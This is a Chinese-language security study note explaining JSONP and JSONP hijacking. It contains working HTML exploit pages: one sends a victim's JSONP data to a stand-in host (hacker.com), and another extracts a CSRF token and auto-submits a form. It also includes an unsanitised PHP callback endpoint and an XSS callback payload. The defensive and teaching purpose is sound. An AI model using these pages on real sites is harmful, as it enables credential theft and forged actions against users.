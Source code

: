 ```yaml
---
aliases: []
tags: ['Security','date/2022-11','year/2022','month/11']
date: 2022-11-30-星期三 19:56:15
update: 2022-11-30-星期三 19:58:19
---
```


## JSONP介绍

说起[[跨域]]请求资源的方法，最常见的方法是JSONP/CORS。下面以具体的例子介绍一下[[跨域#JSONP|JSONP]]的工作原理。

JSONP全称是JSON with Padding ，是基于JSON格式的为解决跨域请求资源而产生的解决方案。**他实现的基本原理是利用了HTML里script元素标签没有跨域限制**

JSONP原理就是动态插入带有跨域url的script标签，然后调用回调函数，把我们需要的json数据作为参数传入，通过一些逻辑把数据显示在页面上。

比如通过script访问`http://www.test.com/index.html?jsonpcallback=callback`, 执行完script后，会调用callback函数，参数就是获取到的数据。

## JSONP劫持

对于JSONP传输数据，正常的业务是用户在B域名下请求A域名下的数据，然后进行进一步操作。

但是对A域名的请求一般都需要身份验证，hacker怎么去获取到这些信息呢，我们可以自己构造一个页面，然后诱惑用户去点击，在这个页面里，我们去请求A域名资源，然后回调函数将请求到的资源发回到hacker服务器上。

没错JSONP劫持类似于CSRF漏洞，步骤大概如下图所示：

![[1666134937.png]]

利用代码如下所示：

```html
<html>
<head>
<title>test</title>
<meta charset="utf-8">
<script type="text/javascript">
function hehehe(obj){
    var myForm = document.createElement("form");
    myForm.action="http://hacker.com/redirect.php";
    myForm.method = "GET";  
    for ( var k in obj) {  
        var myInput = document.createElement("input");  
        myInput.setAttribute("name", k);  
        myInput.setAttribute("value", obj[k]);  
        myForm.appendChild(myInput);  
    }  
    document.body.appendChild(myForm);  
    myForm.submit();  
    document.body.removeChild(myForm);
}
</script>
</head>
<body>
<script type="text/javascript" src="http://localhost/callback.php?callback=hehehe"></script>
</body>
</html>
```

诱惑用户访问此html，会以用户的身份访问`http://localhost/callback.php?callback=hehehe`,拿到敏感数据，然后执行hehehe函数，将数据发送给`http://hacker.com/redirect.php`。抓包可以拦截到如下请求包：

```http
GET /redirect.php?customername1=user1&password=12345678 HTTP/1.1
Host: hacker.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://10.133.136.120/test.html
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```

hacker只需要在redirect.php里，将数据保存下来，然后重定向到baidu.com，堪称一次完美的JSONP劫持。

## 利用JSONP绕过token防护进行csrf攻击

具体的实例可以看看参考文章2，3。

通过上面例子，我们知道JSONP可以获取敏感的数据，在某些情况下，还可以利用JSONP劫持绕过token限制完成csrf攻击。

假设有个场景是这样：服务端判断接收到的请求包，如果含有callback参数就返回JSONP格式的数据，否则返回正常页面。代码如下：test.php

```php
<!-- callback.php -->

<?php
    header('Content-type: application/json');
    //json数据
    $json_data = '{"customername1":"user1","password":"12345678"}';
    if(isset($_GET["callback"])){
        $callback = $_GET["callback"];
        //如果含有callback参数，输出jsonp格式的数据
        echo $callback . "(" . $json_data . ")";
    }else{
        echo $json_data;
    }
?>
```

对于场景，如果存在JSONP劫持劫持，我们就可以获取到页面中的内容，提取出csrf\_token，然后提交表单，造成csrf漏洞。示例利用代码如下(来自参考文章2)：

```html
<html>
<head>
<title>test</title>
<meta charset="utf-8">
</head>
<body>
<div id="test"></div>
<script type="text/javascript">
function test(obj){
    // 获取对象中的属性值
    var content = obj['html']
    // 正则匹配出参数值
    var token=content.match('token = "(.*?)"')[1];
    // 添加表单节点
    var parent=document.getElementById("test");
    var child=document.createElement("form");
    child.method="POST";
    child.action="http://vuln.com/del.html";
    child.id="test1"
    parent.appendChild(child);
    var parent_1=document.getElementById("test1");
    var child_1=document.createElement("input");
    child_1.type="hidden";child_1.name="token";child_1.value=token;
    var child_2=document.createElement("input");
    child_2.type="submit";
    parent_1.appendChild(child_1);
    parent_1.appendChild(child_2);
}
</script>
<script type="text/javascript" src="http://vuln.com/caozuo.html?htmlcallback=test"></script>
</body>
</html>
```

htmlcallback返回一个对象obj，以该对象作为参数传入test函数，操作对象中属性名为html的值，正则匹配出token，再加入表单，自动提交表单完成操作，用户点击该攻击页面即收到csrf攻击。

## JSONP劫持挖掘与防御

对于漏洞挖掘，我们首先需要尽可能的找到所有的接口，尤其是返回数据格式是JSONP的接口。(可以在数据包中检索关键词callback json jsonp email等，也可以加上callback参数，观察返回值是否变化)。

找到接口之后，还需要返回值包含敏感信息，并且能被不同的域的页面去请求获取(也就是是否存在refer限制,实际上，如果接口存在refer的限制，也是有可能被绕过的，计划以后的文章中再说)

对于JSONP劫持的防御，其实类似于csrf的防御。以下来源于参考文章4:

- 限制来源refer
- 按照JSON格式标准输出（设置Content-Type : application/json; charset=utf-8），预防`http://127.0.0.1/getUsers.php?callback=<script>alert(/xss/)</script>`形式的xss
- 过滤callback函数名以及JSON数据输出，预防xss

## 参考

- [JSONP 劫持原理与挖掘方法](https://www.k0rz3n.com/2019/03/07/JSONP%20%E5%8A%AB%E6%8C%81%E5%8E%9F%E7%90%86%E4%B8%8E%E6%8C%96%E6%8E%98%E6%96%B9%E6%B3%95/)
- [JSONP绕过CSRF防护token](https://xz.aliyun.com/t/5143)
- [分享一个jsonp劫持造成的新浪某社区CSRF蠕虫](https://www.leavesongs.com/HTML/sina-jsonp-hijacking-csrf-worm.html#)
- [JSONP 安全攻防技术](https://blog.knownsec.com/2015/03/jsonp_security_technic/)
